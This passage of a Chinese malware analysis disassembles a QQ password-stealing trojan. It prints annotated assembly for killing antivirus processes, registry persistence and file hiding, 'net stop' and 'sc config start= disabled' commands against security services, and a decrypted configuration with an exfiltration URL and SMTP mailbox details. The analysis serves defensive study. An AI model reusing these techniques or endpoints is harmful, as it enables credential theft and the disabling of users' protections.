> .nsp0:0040AA37         push    0                       ; lpThreadAttributes  
> .nsp0:0040AA39         call    CreateThread            ; 启动关闭ＱＱ线程  
> .nsp0:0040AA3E         mov     eax, ThreadID\_01  
> .nsp0:0040AA43         push    eax                     ; lpThreadId  
> .nsp0:0040AA44         push    0                       ; dwCreationFlags  
> .nsp0:0040AA46         push    0                       ; lpParameter  
> .nsp0:0040AA48         push    offset Thread\_Kill\_AV   ; lpStartAddress  
> .nsp0:0040AA4D         push    0                       ; dwStackSize  
> .nsp0:0040AA4F         push    0                       ; lpThreadAttributes  
> .nsp0:0040AA51         call    CreateThread            ; 启动清除反病毒软件线程  
> .nsp0:0040AA56         mov     eax, ThreadID\_02  
> .nsp0:0040AA5B         push    eax                     ; lpThreadId  
> .nsp0:0040AA5C         push    0                       ; dwCreationFlags  
> .nsp0:0040AA5E         push    0                       ; lpParameter  
> .nsp0:0040AA60         push    offset ThreadDownload\_01 ; lpStartAddress  
> .nsp0:0040AA65         push    0                       ; dwStackSize  
> .nsp0:0040AA67         push    0                       ; lpThreadAttributes  
> .nsp0:0040AA69         call    CreateThread            ; 启动下载线程 1  
> .nsp0:0040AA6E         mov     eax, ThreadID\_03  
> .nsp0:0040AA73         push    eax                     ; lpThreadId  
> .nsp0:0040AA74         push    0                       ; dwCreationFlags  
> .nsp0:0040AA76         push    0                       ; lpParameter  
> .nsp0:0040AA78         push    offset ThreadDownload\_02 ; lpStartAddress  
> .nsp0:0040AA7D         push    0                       ; dwStackSize  
> .nsp0:0040AA7F         push    0                       ; lpThreadAttributes  
> .nsp0:0040AA81         call    CreateThread            ; 启动下载线程 2  
> .nsp0:0040AA86         lea     eax, \[ebp+var\_84\]  
> .nsp0:0040AA8C         call    GetSysDir  
> .nsp0:0040AA91         push    \[ebp+var\_84\]  
> .nsp0:0040AA97         push    dword ptr \[ebx\]  
> .nsp0:0040AA99         push    offset a\_dll            ; ".dll"  
> .nsp0:0040AA9E         lea     eax, \[ebp+var\_80\]  
> .nsp0:0040AAA1         mov     edx, 3  
> .nsp0:0040AAA6         call    sub\_403BC4  
> .nsp0:0040AAAB         mov     eax, \[ebp+var\_80\]  
> .nsp0:0040AAAE         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040AAB3         mov     ecx, eax  
> .nsp0:0040AAB5         mov     edx, offset aDll        ; "dll"  
> .nsp0:0040AABA         mov     eax, offset aDllfile    ; "dllfile"  
> .nsp0:0040AABF         call    Release\_file            ; 释放出 ergaon.dll  
> .nsp0:0040AAC4         push    FILE\_ATTRIBUTE\_NORMAL  
> .nsp0:0040AAC9         lea     eax, \[ebp+var\_8C\]  
> .nsp0:0040AACF         call    GetSysDir  
> .nsp0:0040AAD4         push    \[ebp+var\_8C\]  
> .nsp0:0040AADA         push    dword ptr \[ebx\]  
> .nsp0:0040AADC         push    offset a\_dll            ; dwFileAttributes  
> .nsp0:0040AAE1         lea     eax, \[ebp+szSysDirergaon\_dll\_\]  
> .nsp0:0040AAE7         mov     edx, 3  
> .nsp0:0040AAEC         call    sub\_403BC4  
> .nsp0:0040AAF1         mov     eax, \[ebp+szSysDirergaon\_dll\_\]  
> .nsp0:0040AAF7         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040AAFC         push    eax                     ; lpFileName  
> .nsp0:0040AAFD         call    SetFileAttributesA  
> .nsp0:0040AB02         lea     eax, \[ebp+var\_94\]  
> .nsp0:0040AB08         call    GetSysDir  
> .nsp0:0040AB0D         push    \[ebp+var\_94\]  
> .nsp0:0040AB13         push    dword ptr \[ebx\]  
> .nsp0:0040AB15         push    offset a\_dll            ; ".dll"  
> .nsp0:0040AB1A         lea     eax, \[ebp+var\_90\]  
> .nsp0:0040AB20         mov     edx, 3  
> .nsp0:0040AB25         call    sub\_403BC4  
> .nsp0:0040AB2A         mov     eax, \[ebp+var\_90\]  
> .nsp0:0040AB30         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:0040AB35         push    eax                     ; lpLibFileName  
> .nsp0:0040AB36         call    LoadLibraryA            ; 载入%sysDir%\\ergaon.dll  
> .nsp0:0040AB3B         mov     ebx, eax  
> .nsp0:0040AB3D         push    offset aHookon          ; "HookOn"  
> .nsp0:0040AB42         push    ebx                     ; hModule  
> .nsp0:0040AB43         call    GetProcAddress  
> .nsp0:0040AB48         mov     esi, eax  
> .nsp0:0040AB4A         call    esi                     ; SetWindowsHookEx  
> .nsp0:0040AB4C         call    Reg\_Window              ; 这里要进去，里面有一时间控件进行实时清除反病毒  
> .nsp0:0040AB4C                                         ; 软件和实时生成病毒副本  
> .nsp0:0040AB51         push    offset aHookoff         ; "HookOff"  
> .nsp0:0040AB56         push    ebx                     ; hModule  
> .nsp0:0040AB57         call    GetProcAddress  
> .nsp0:0040AB5C         mov     esi, eax  
> .nsp0:0040AB5E         call    esi                     ; 关闭 hook,退出程序  
> .nsp0:0040AB60         push    ebx                     ; hLibModule  
> .nsp0:0040AB61         call    FreeLibrary\_0  
> .nsp0:0040AB66  
> .nsp0:0040AB66 end\_40AB66:                             ; CODE XREF: start+597 j  
> .nsp0:0040AB66         xor     eax, eax  
> .nsp0:0040AB68         pop     edx  
> .nsp0:0040AB69         pop     ecx  
> .nsp0:0040AB6A         pop     ecx  
> .nsp0:0040AB6B         mov     fs:\[eax\], edx  
> .nsp0:0040AB6E         push    offset loc\_40AB8B  
> .nsp0:0040AB73  
> .nsp0:0040AB73 loc\_40AB73:                             ; CODE XREF: .nsp0:0040AB89 j  
> .nsp0:0040AB73         lea     eax, \[ebp+var\_94\]  
> .nsp0:0040AB79         mov     edx, 21h  
> .nsp0:0040AB7E         call    @System@@LStrArrayClr$qqrpvi  
> .nsp0:0040AB83         retn  
> .nsp0:0040AB83 start   endp ; sp = -8Ch  
>   
> 上面的代码基本将病毒所做的事列出来了，这里对上面的代码做个简单文字总结:  
> 病毒运行时先检测病毒是否已经运行，如果已经运行则发送消息使病毒退出。既然病毒已经在内存  
> 中为什么病毒还要让自身退出呢，其实原因很简单，这是病毒为了方便自身的升级。  
> 病毒将旧版本的病毒退出内存后病毒删除旧版本病毒中释放的相关文件:"winscok.dll"、"svohost.exe"  
> 并删除以下注册表项:  
> 主键:HKEY\_LOCAL\_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run  
> 键值:"sonudmam"  
> 然后清除系统目录下的"qqhx.dat"文件,删除注册表项:  
> HKLM\\software\\microsoft\\windows\\currentversion\\run  
> "tmlurl" = xxx  
> 删除 defghij 盘根目录下的 autorun.inf 文件和 sxs 文件;  
> 生新病毒文件:ergaon.exe、ergaon.dll 以及 qqhx.dat。  
> 然后病毒启动相应的病毒线程执行相应的病毒操作，启动线程后病毒加载主盗号模块"ergaon.dll"实施盗号的罪恶行为。  
> 根据流程图这回到了病毒解密附加数据部分,这部分由于本人并没有该病毒的生成器，因此不敢信口开河，以下是本人分析后的大概情况:  
> 配置木马后病毒将相应的信息进行加密处理，处理完毕后将信息保存在文件尾部，木马运行是进行解密然后将相应的信息保存起来，经过分析得知病毒配置信息大概就是以下样子:  
> PswQQ\_Struct struc ; (sizeof=0x3C)  
> 00000000 pUrl    dd ?                           ; 信息传送网址  
> 00000004 pSmtpServer dd ?                        ; smtp 服务器地址  
> 00000008 pUserName dd ?                         ; 用户名  
> 0000000C pMail   dd ?                           ; 邮件地址  
> 00000010 pPWD    dd ?                          ; 连接密码  
> 00000014 pMail\_01 dd ?                           ; email 地址 2，用途未知  
> 00000018 Kill\_QQ\_flg dd ?                         ; 终止ＱＱ选项  
> 0000001C pSecond dd ?                            ; 时间间隔,也就是多少秒后终止ＱＱ进程  
> 00000020 pOption\_Infect\_Driver dd ?                 ; 生成 autorun.inf 自动运行选项  
> 00000024 pOption\_03 dd ?                          ; 未知选项  
> 00000028 pOption\_04 dd ?                          ; 未知选项  
> 0000002C pFndWindowName dd                     ; 需要查找的窗体名  
> 00000030 pOption\_05 dd ?                          ; 未知选项  
> 00000034 pExtFileName dd ?                        ; 病毒伪装文件名  
> 00000038 pOption\_06 dd ?                          ; 未知选项  
> 0000003C PswQQ\_Struct ends  
> 该木马对应的实际信息如下:  
> PswQQ\_Struct struc ; (sizeof=0x3C)                    $ ==>"http://www.ctv163.com/alexa/Css/heixia.asp"  
> .nsp0:0040CD28                                         ; $+4      ASCII "smtp.tom.com"  
> .nsp0:0040CD28                                         ; $+8      ASCII "User"  
> .nsp0:0040CD28                                         ; $+C      ASCII "User@tom.com"  
> .nsp0:0040CD28                                         ; $+10     ASCII "123456"  
> .nsp0:0040CD28                                         ; $+14     ASCII "xxx@tom.com"  
> .nsp0:0040CD28                                         ; $+18     ASCII "yes"  
> .nsp0:0040CD28                                         ; $+1C     ASCII "60"  
> .nsp0:0040CD28                                         ; $+20     ASCII "yes"  
> .nsp0:0040CD28                                         ; $+24     ASCII "yes"  
> .nsp0:0040CD28                                         ; $+28     ASCII "no"  
> .nsp0:0040CD28                                         ; $+2C     ASCII "tmlurl"  
> .nsp0:0040CD28                                         ; $+30     ASCII "NO"  
> .nsp0:0040CD28                                         ; $+34     ASCII "ergaon"  
> .nsp0:0040CD28                                         ; $+38     ASCII "no"  
> 看到这些信息聪明的你其实已经可以通这些信息获取到更多的信息甚至追踪到病毒作者:-)。至于你可以追到多少信息就看你自己的了，赶快动动你的大脑，也许你会找到很多很多^\_^。  
> 病毒隐藏自身进程部分由于只能在 win9x 下有效，现在用 win9x 的人已经是很少了吧？因此这里不讲隐藏进程的细节。一句话总结下就是:利用 win9x 特殊 api:RegisterServiceProcess 将自身注册为系统服务进程以实现进程的隐藏。  
> 分析完附加数据部分后下面简单的看看病毒关闭ＱＱ部分:  
>  ; DWORD \_\_stdcall Thread\_Kill\_QQ(LPVOID)  
> .nsp0:00408B68 Thread\_Kill\_QQ:                         ; DATA XREF: start+5B0 o  
> .nsp0:00408B68         mov     eax, Kill\_QQ\_flg  
> .nsp0:00408B6D         mov     eax, \[eax\]  
> .nsp0:00408B6F         mov     edx, offset aYes        ; "yes"  
> .nsp0:00408B74         call    @System@@LStrCmp$qqrv   ; 判断配置时是否选择了关闭 QQ，如果选择了，  
> .nsp0:00408B74                                         ; 则该配置选项为 yes,也就执行关闭ＱＱ操作  
> .nsp0:00408B79         jnz     short locret\_408B9D  
> .nsp0:00408B7B         mov     eax, pSecond  
> .nsp0:00408B80         mov     eax, \[eax\]  
> .nsp0:00408B82         call    sub\_404C90  
> .nsp0:00408B87         imul    eax, 3E8h  
> .nsp0:00408B8D         push    eax  
> .nsp0:00408B8E         call    Sleep  
> .nsp0:00408B93         mov     eax, offset aQq\_exe     ; "QQ.exe"  
> .nsp0:00408B98         call    Kill\_Process  
> .nsp0:00408B9D  
> .nsp0:00408B9D locret\_408B9D:                          ; CODE XREF: .nsp0:00408B79 j  
> .nsp0:00408B9D         retn  
> .nsp0:00408B9D ; ---------------------------------------------------------------------------  
> 关闭ＱＱ部分非常简单，我也就不再嗷述了。  
> 接下下我们看看病毒清除反病毒软件部分:  
> .nsp0:00408BBC ; =============== S U B R O U T I N E =======================================  
> .nsp0:00408BBC  
> .nsp0:00408BBC ; 该函数主要是用于清除反病毒软件以及为病毒添加  
> .nsp0:00408BBC ; 注册表自启动项  
> .nsp0:00408BBC ; Attributes: bp-based frame  
> .nsp0:00408BBC  
> .nsp0:00408BBC ; DWORD \_\_stdcall Thread\_Kill\_AV(LPVOID)  
> .nsp0:00408BBC Thread\_Kill\_AV proc near                ; DATA XREF: start+5C8 o  
> .nsp0:00408BBC  
> .nsp0:00408BBC var\_2C  = dword ptr -2Ch  
> .nsp0:00408BBC var\_28  = dword ptr -28h  
> .nsp0:00408BBC var\_24  = dword ptr -24h  
> .nsp0:00408BBC var\_20  = dword ptr -20h  
> .nsp0:00408BBC var\_1C  = dword ptr -1Ch  
> .nsp0:00408BBC var\_18  = dword ptr -18h  
> .nsp0:00408BBC var\_14  = dword ptr -14h  
> .nsp0:00408BBC var\_10  = dword ptr -10h  
> .nsp0:00408BBC var\_C   = dword ptr -0Ch  
> .nsp0:00408BBC var\_8   = dword ptr -8  
> .nsp0:00408BBC var\_4   = dword ptr -4  
> .nsp0:00408BBC  
> .nsp0:00408BBC         push    ebp  
> .nsp0:00408BBD         mov     ebp, esp  
> .nsp0:00408BBF         mov     ecx, 5  
> .nsp0:00408BC4  
> .nsp0:00408BC4 loc\_408BC4:                             ; CODE XREF: Thread\_Kill\_AV+D j  
> .nsp0:00408BC4         push    0  
> .nsp0:00408BC6         push    0  
> .nsp0:00408BC8         dec     ecx  
> .nsp0:00408BC9         jnz     short loc\_408BC4  
> .nsp0:00408BCB         push    ecx  
> .nsp0:00408BCC         xor     eax, eax  
> .nsp0:00408BCE         push    ebp  
> .nsp0:00408BCF         push    offset j\_@System@@HandleFinally$qqrv\_22  
> .nsp0:00408BD4         push    dword ptr fs:\[eax\]  
> .nsp0:00408BD7         mov     fs:\[eax\], esp  
> .nsp0:00408BDA         lea     edx, \[ebp+var\_4\]  
> .nsp0:00408BDD         mov     eax, offset aACnqqcTwqkgdfv ; "ExeMutex\_QQRobber2.0"  
> .nsp0:00408BE2         call    Decrypt\_Function        ; 通过这里可得知这个木马为阿拉大盗 2.0  
> .nsp0:00408BE7         mov     eax, \[ebp+var\_4\]  
> .nsp0:00408BEA         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408BEF         push    eax                     ; lpName  
> .nsp0:00408BF0         push    -1                      ; int  
> .nsp0:00408BF2         push    0                       ; lpMutexAttributes  
> .nsp0:00408BF4         call    CreateMutex  
> .nsp0:00408BF9         lea     edx, \[ebp+var\_8\]  
> .nsp0:00408BFC         mov     eax, offset a@ijnqqcTwqkgdf ; "DllMutex\_QQRobber2.0"  
> .nsp0:00408C01         call    Decrypt\_Function  
> .nsp0:00408C06         mov     eax, \[ebp+var\_8\]  
> .nsp0:00408C09         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408C0E         push    eax                     ; lpName  
> .nsp0:00408C0F         push    0FFFFFFFFh              ; int  
> .nsp0:00408C11         push    0                       ; lpMutexAttributes  
> .nsp0:00408C13         call    CreateMutex  
> .nsp0:00408C18         push    offset Name             ; "AntiTrojan3721"  
> .nsp0:00408C1D         push    0FFFFFFFFh              ; int  
> .nsp0:00408C1F         push    0                       ; lpMutexAttributes  
> .nsp0:00408C21         call    CreateMutex  
> .nsp0:00408C26         push    offset aAssistshellmut  ; "ASSISTSHELLMUTEX"  
> .nsp0:00408C2B         push    0FFFFFFFFh              ; int  
> .nsp0:00408C2D         push    0                       ; lpMutexAttributes  
> .nsp0:00408C2F         call    CreateMutex  
> .nsp0:00408C34         push    offset aSkynet\_persona  ; "SKYNET\_PERSONAL\_FIREWALL"  
> .nsp0:00408C39         push    0FFFFFFFFh              ; int  
> .nsp0:00408C3B         push    0                       ; lpMutexAttributes  
> .nsp0:00408C3D         call    CreateMutex  
> .nsp0:00408C42         push    offset aKingsoftantivi  ; "KingsoftAntivirusScanProgram7Mutex"  
> .nsp0:00408C47         push    0FFFFFFFFh              ; int  
> .nsp0:00408C49         push    0                       ; lpMutexAttributes  
> .nsp0:00408C4B         call    CreateMutex  
> .nsp0:00408C50         push    FILE\_ATTRIBUTE\_NORMAL   ; dwFileAttributes  
> .nsp0:00408C55         lea     eax, \[ebp+var\_C\]  
> .nsp0:00408C58         call    GetSysDir  
> .nsp0:00408C5D         lea     eax, \[ebp+var\_C\]  
> .nsp0:00408C60         mov     edx, offset aGlqq       ; "glqq"  
> .nsp0:00408C65         call    @System@@LStrCat$qqrv  
> .nsp0:00408C6A         mov     eax, \[ebp+var\_C\]  
> .nsp0:00408C6D         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408C72         push    eax                     ; lpFileName  
> .nsp0:00408C73         call    SetFileAttributesA  
> .nsp0:00408C78         lea     eax, \[ebp+var\_10\]  
> .nsp0:00408C7B         call    GetSysDir  
> .nsp0:00408C80         lea     eax, \[ebp+var\_10\]  
> .nsp0:00408C83         mov     edx, offset aGlqq       ; "glqq"  
> .nsp0:00408C88         call    @System@@LStrCat$qqrv  
> .nsp0:00408C8D         mov     eax, \[ebp+var\_10\]  
> .nsp0:00408C90         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408C95         push    eax                     ; lpFileName  
> .nsp0:00408C96         call    DeleteFileA             ; 删除%sysdir%\\glqq 文件  
> .nsp0:00408C9B         push    2710h                   ; dwMilliseconds  
> .nsp0:00408CA0         call    Sleep  
> .nsp0:00408CA5         push    FILE\_ATTRIBUTE\_HIDDEN or FILE\_ATTRIBUTE\_SYSTEM  
> .nsp0:00408CA7         lea     eax, \[ebp+var\_18\]  
> .nsp0:00408CAA         call    GetSysDir  
> .nsp0:00408CAF         push    \[ebp+var\_18\]  
> .nsp0:00408CB2         mov     eax, pExtFileName  
> .nsp0:00408CB7         push    dword ptr \[eax\]  
> .nsp0:00408CB9         push    offset a\_exe\_0          ; dwFileAttributes  
> .nsp0:00408CBE         lea     eax, \[ebp+var\_14\]  
> .nsp0:00408CC1         mov     edx, 3  
> .nsp0:00408CC6         call    sub\_403BC4  
> .nsp0:00408CCB         mov     eax, \[ebp+var\_14\]  
> .nsp0:00408CCE         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408CD3         push    eax                     ; lpFileName  
> .nsp0:00408CD4         call    SetFileAttributesA      ; 设置 ergaon.exe 文件属性为隐藏+系统  
> .nsp0:00408CD9         push    FILE\_ATTRIBUTE\_HIDDEN or FILE\_ATTRIBUTE\_SYSTEM ; dwFileAttributes  
> .nsp0:00408CDB         lea     eax, \[ebp+var\_1C\]  
> .nsp0:00408CDE         call    GetSysDir  
> .nsp0:00408CE3         lea     eax, \[ebp+var\_1C\]  
> .nsp0:00408CE6         mov     edx, offset aQqhx\_dat\_1 ; "QQhx.dat"  
> .nsp0:00408CEB         call    @System@@LStrCat$qqrv  
> .nsp0:00408CF0         mov     eax, \[ebp+var\_1C\]  
> .nsp0:00408CF3         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408CF8         push    eax                     ; lpFileName  
> .nsp0:00408CF9         call    SetFileAttributesA      ; 设置%SysDir%\\qqhx.dat 文件属性为隐藏+系统  
> .nsp0:00408CFE         push    6  
> .nsp0:00408D00  
> .nsp0:00408D00 loc\_408D00:                             ; DATA XREF: .nsp0:off\_40B0C4 o  
> .nsp0:00408D00         lea     eax, \[ebp+var\_24\]  
> .nsp0:00408D03         call    GetSysDir  
> .nsp0:00408D08         push    \[ebp+var\_24\]  
> .nsp0:00408D0B         mov     eax, pExtFileName  
> .nsp0:00408D10         push    dword ptr \[eax\]  
> .nsp0:00408D12         push    offset a\_dll\_0          ; dwFileAttributes  
> .nsp0:00408D17         lea     eax, \[ebp+var\_20\]  
> .nsp0:00408D1A         mov     edx, 3  
> .nsp0:00408D1F         call    sub\_403BC4  
> .nsp0:00408D24         mov     eax, \[ebp+var\_20\]  
> .nsp0:00408D27         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408D2C         push    eax                     ; lpFileName  
> .nsp0:00408D2D         call    SetFileAttributesA      ; 这里同上将 ergaon.dll 进行隐藏操作  
> .nsp0:00408D32         lea     eax, \[ebp+var\_2C\]  
> .nsp0:00408D35         call    GetSysDir  
> .nsp0:00408D3A         push    \[ebp+var\_2C\]  
> .nsp0:00408D3D         mov     eax, pExtFileName  
> .nsp0:00408D42         push    dword ptr \[eax\]  
> .nsp0:00408D44         push    offset a\_exe\_0          ; ".exe"  
> .nsp0:00408D49         lea     eax, \[ebp+var\_28\]  
> .nsp0:00408D4C         mov     edx, 3  
> .nsp0:00408D51         call    sub\_403BC4  
> .nsp0:00408D56         mov     eax, \[ebp+var\_28\]  
> .nsp0:00408D59         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408D5E         push    eax  
> .nsp0:00408D5F         push    1  
> .nsp0:00408D61         mov     eax, pFndWinDowName  
> .nsp0:00408D66         mov     eax, \[eax\]  
> .nsp0:00408D68         call    @System@@LStrToPChar$qqrx17System@AnsiString  
> .nsp0:00408D6D         mov     ecx, eax  
> .nsp0:00408D6F         mov     edx, offset aSoftwareMicr\_3 ; "Software\\\\Microsoft\\\\Windows\\\\CurrentVersi"...  
> .nsp0:00408D74         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:00408D79         call    Write\_Reg               ; 写入以下注册表自启动项:  
> .nsp0:00408D79                                         ; HKLM\\software\\...\\run  
> .nsp0:00408D79                                         ; "tmlurl" = "%sysdir%\\ergaon.exe"  
> .nsp0:00408D7E         push    offset a0               ; "0"  
> .nsp0:00408D83         push    1  
> .nsp0:00408D85         mov     ecx, offset aCheckedvalue ; "CheckedValue"  
> .nsp0:00408D8A         mov     edx, offset aSoftwareMicros ; "software\\\\microsoft\\\\windows\\\\currentversi"...  
> .nsp0:00408D8F         mov     eax, HKEY\_LOCAL\_MACHINE  
> .nsp0:00408D94         call    Write\_Reg               ; 设置注册表项，使系统不显示隐藏文件  
> .nsp0:00408D99         mov     eax, pOption\_06  
> .nsp0:00408D9E         mov     eax, \[eax\]  
> .nsp0:00408DA0         mov     edx, offset aYes\_0      ; "yes"  
> .nsp0:00408DA5         call    @System@@LStrCmp$qqrv  
> .nsp0:00408DAA         jnz     short loc\_408DBB  
> .nsp0:00408DAC         call    GetOs  
> .nsp0:00408DB1         cmp     eax, 3  
> .nsp0:00408DB4         jnz     short loc\_408DBB  
> .nsp0:00408DB6         call    unknow                  ; 这里好像是对还原精灵之类的进行操作，细节没去看.  
> .nsp0:00408DBB  
> .nsp0:00408DBB loc\_408DBB:                             ; CODE XREF: Thread\_Kill\_AV+1EE j  
> .nsp0:00408DBB                                         ; Thread\_Kill\_AV+1F8 j  
> .nsp0:00408DBB         mov     eax, off\_40B10C  
> .nsp0:00408DC0         mov     byte ptr \[eax\], 1  
> .nsp0:00408DC3         call    Enable\_AutoRun\_Inf  
> .nsp0:00408DC8         call    GetOs  
> .nsp0:00408DCD         cmp     eax, 3  
> .nsp0:00408DD0         jnz     Win9x\_Way  
> .nsp0:00408DD6         push    0                       ; nShowCmd  
> .nsp0:00408DD8         push    0                       ; lpDirectory  
> .nsp0:00408DDA         push    offset Parameters       ; "stop srservice"  
> .nsp0:00408DDF         push    offset aNet\_exe         ; "net.exe"  
> .nsp0:00408DE4         push    offset aOpen\_0          ; "open"  
> .nsp0:00408DE9         push    0                       ; hwnd  
> .nsp0:00408DEB         call    ShellExecuteA           ; 如果是 Win2k/xp/2003 则终止相关反病毒软件服务  
> .nsp0:00408DF0         push    0                       ; nShowCmd  
> .nsp0:00408DF2         push    0                       ; lpDirectory  
> .nsp0:00408DF4         push    offset aConfigSrservic  ; "config srservice start= disabled"  
> .nsp0:00408DF9         push    offset aSc\_exe          ; "sc.exe"  
> .nsp0:00408DFE         push    offset aOpen\_0          ; "open"  
> .nsp0:00408E03         push    0                       ; hwnd  
> .nsp0:00408E05         call    ShellExecuteA  
> .nsp0:00408E0A         push    0                       ; nShowCmd  
> .nsp0:00408E0C         push    0                       ; lpDirectory  
> .nsp0:00408E0E         push    offset aStopSharedacce  ; "stop sharedaccess"  
> .nsp0:00408E13         push    offset aNet\_exe         ; "net.exe"  
> .nsp0:00408E18         push    offset aOpen\_0          ; "open"  
> .nsp0:00408E1D         push    0                       ; hwnd  
> .nsp0:00408E1F         call    ShellExecuteA  
> .nsp0:00408E24         push    0                       ; nShowCmd  
> .nsp0:00408E26         push    0                       ; lpDirectory  
> .nsp0:00408E28         push    offset aStopKvwsc       ; "stop KVWSC"  
> .nsp0:00408E2D         push    offset aNet\_exe         ; "net.exe"  
> .nsp0:00408E32         push    offset aOpen\_0          ; "open"  
> .nsp0:00408E37         push    0                       ; hwnd  
> .nsp0:00408E39         call    ShellExecuteA  
> .nsp0:00408E3E         push    0                       ; nShowCmd  
> .nsp0:00408E40         push    0                       ; lpDirectory  
> .nsp0:00408E42         push    offset aConfigKvwscSta  ; "config KVWSC start= disabled"  
> .nsp0:00408E47         push    offset aSc\_exe          ; "sc.exe"  
> .nsp0:00408E4C         push    offset aOpen\_0          ; "open"  
> .nsp0:00408E51         push    0                       ; hwnd  
> .nsp0:00408E53         call    ShellExecuteA  
> .nsp0:00408E58         push    0                       ; nShowCmd  
> .nsp0:00408E5A         push    0                       ; lpDirectory  
> .nsp0:00408E5C         push    offset aStopKvsrvxp     ; "stop KVSrvXP"  
> .nsp0:00408E61         push    offset aNet\_exe         ; "net.exe"  
> .nsp0:00408E66         push    offset aOpen\_0          ; "open"  
> .nsp0:00408E6B         push    0                       ; hwnd  
> .nsp0:00408E6D         call    ShellExecuteA  
> .nsp0:00408E72         push    0                       ; nShowCmd  
> .nsp0:00408E74         push    0                       ; lpDirectory  
> .nsp0:00408E76         push    offset aConfigKvsrvxpS  ; "config KVSrvXP start= disabled"  
> .nsp0:00408E7B         push    offset aSc\_exe          ; "sc.exe"  
> .nsp0:00408E80         push    offset aOpen\_0          ; "open"  
> .nsp0:00408E85         push    0                       ; hwnd  
> .nsp0:00408E87         call    ShellExecuteA  
> .nsp0:00408E8C         push    0                       ; nShowCmd  
> .nsp0:00408E8E         push    0                       ; lpDirectory  
> .nsp0:00408E90         push    offset aStopKavsvc      ; "stop kavsvc"  
> .nsp0:00408E95         push    offset aNet\_exe         ; "net.exe"  
> .nsp0:00408E9A         push    offset aOpen\_0          ; "open"  
> .nsp0:00408E9F         push    0                       ; hwnd  
> .nsp0:00408EA1         call    ShellExecuteA  
> .nsp0:00408EA6         push    0                       ; nShowCmd  
> .nsp0:00408EA8         push    0                       ; lpDirectory  
> .nsp0:00408EAA         push    offset aConfigKavsvcSt  ; "config kavsvc start= disabled"  
> .nsp0:00408EAF         push    offset aSc\_exe          ; "sc.exe"  
> .nsp0:00408EB4         push    offset aOpen\_0          ; "open"  
> .nsp0:00408EB9         push    0                       ; hwnd  
> .nsp0:00408EBB         call    ShellExecuteA  
> .nsp0:00408EC0         push    0                       ; nShowCmd  
> .nsp0:00408EC2         push    0                       ; lpDirectory  
> .nsp0:00408EC4         push    offset aConfigRsravmon  ; "config RsRavMon start= disabled"  
> .nsp0:00408EC9         push    offset aSc\_exe          ; "sc.exe"  
> .nsp0:00408ECE         push    offset aOpen\_0          ; "open"  
> .nsp0:00408ED3         push    0                       ; hwnd  
> .nsp0:00408ED5         call    ShellExecuteA  
> .nsp0:00408EDA         push    0                       ; nShowCmd  
> .nsp0:00408EDC         push    0                       ; lpDirectory  
> .nsp0:00408EDE         push    offset aStopRsccenter   ; "stop RsCCenter"  
> .nsp0:00408EE3         push    offset aNet\_exe         ; "net.exe"  
> .nsp0:00408EE8         push    offset aOpen\_0          ; "open"  
> .nsp0:00408EED         push    0                       ; hwnd  
> .nsp0:00408EEF         call    ShellExecuteA  
> .nsp0:00408EF4         push    0                       ; nShowCmd  
> .nsp0:00408EF6         push    0                       ; lpDirectory  
> .nsp0:00408EF8         push    offset aConfigRsccente  ; "config RsCCenter start= disabled"  
> .nsp0:00408EFD         push    offset aSc\_exe          ; "sc.exe"  
> .nsp0:00408F02         push    offset aOpen\_0          ; "open"  
> .nsp0:00408F07         push    0                       ; hwnd  
> .nsp0:00408F09         call    ShellExecuteA  
> .nsp0:00408F0E         push    0                       ; nShowCmd  
> .nsp0:00408F10         push    0                       ; lpDirectory  
> .nsp0:00408F12         push    offset aStopRsravmon    ; "stop RsRavMon"  
> .nsp0:00408F17         push    offset aNet\_exe         ; "net.exe"  
> .nsp0:00408F1C         push    offset aOpen\_0          ; "open"  
> .nsp0:00408F21         push    0                       ; hwnd  
> .nsp0:00408F23         call    ShellExecuteA  
> .nsp0:00408F28         push    320h                    ; dwMilliseconds  
> .nsp0:00408F2D         call    Sleep  
> .nsp0:00408F32         push    offset aS\_1             ; "瑞星提示"  
> .nsp0:00408F37         push    offset ClassName        ; "#32770"  
> .nsp0:00408F3C         call    FindWindowA  
> .nsp0:00408F41         push    offset aY               ; LPCSTR  
> .nsp0:00408F46         push    offset aButton          ; "Button"  
> .nsp0:00408F4B         push    0                       ; HWND  
> .nsp0:00408F4D         push    eax                     ; HWND  
> .nsp0:00408F4E         call    FindWindowExA  
> .nsp0:00408F53         test    eax, eax  
> .nsp0:00408F55         jz      short loc\_408F66  
> .nsp0:00408F57         push    0                       ; lParam  
> .nsp0:00408F59         push    0                       ; wParam  
> .nsp0:00408F5B         push    BM\_CLICK                ; Msg  
> .nsp0:00408F60         push    eax                     ; hWnd  
> .nsp0:00408F61         call    SendMessageA  
> .nsp0:00408F66  
> .nsp0:00408F66 loc\_408F66:                             ; CODE XREF: Thread\_Kill\_AV+399 j  
> .nsp0:00408F66         mov     eax, offset aSc\_exe\_0   ; "sc.exe"  
> .nsp0:00408F6B         call    Kill\_Process  
> .nsp0:00408F70         mov     eax, offset aCmd\_exe    ; "cmd.exe"  
> .nsp0:00408F75         call    Kill\_Process  
> .nsp0:00408F7A         mov     eax, offset aNet\_exe\_0  ; "net.exe"  
> .nsp0:00408F7F         call    Kill\_Process  
> .nsp0:00408F84         mov     eax, offset aSc1\_exe    ; "sc1.exe"  
> .nsp0:00408F89         call    Kill\_Process  
> .nsp0:00408F8E         mov     eax, offset aNet1\_exe   ; "net1.exe"  
> .nsp0:00408F93         call    Kill\_Process  
> .nsp0:00408F98         mov     eax, offset aPfw\_exe    ; "PFW.exe"  
> .nsp0:00408F9D         call    Kill\_Process  
> .nsp0:00408FA2         mov     eax, offset aKav\_exe    ; "Kav.exe"  
> .nsp0:00408FA7         call    Kill\_Process  
> .nsp0:00408FAC         mov     eax, offset aKvol\_exe   ; "KVOL.exe"  
